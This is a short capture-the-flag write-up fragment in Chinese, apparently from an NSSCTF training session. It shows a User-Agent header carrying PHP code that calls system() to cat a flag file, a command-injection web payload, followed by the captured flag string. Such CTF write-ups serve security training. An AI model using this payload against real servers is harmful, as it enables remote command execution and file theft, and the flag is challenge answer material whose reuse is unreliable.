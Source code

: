 
使用命令

```txt
User-Agent: <?PhP system('cat /ffflllaaaggg'); ?>
```

得到flag

![](./imgs/20250122集训_flag.png)

>NSSCTF{36c275ab-5a44-4b02-ad93-f5e22f1f3ed7}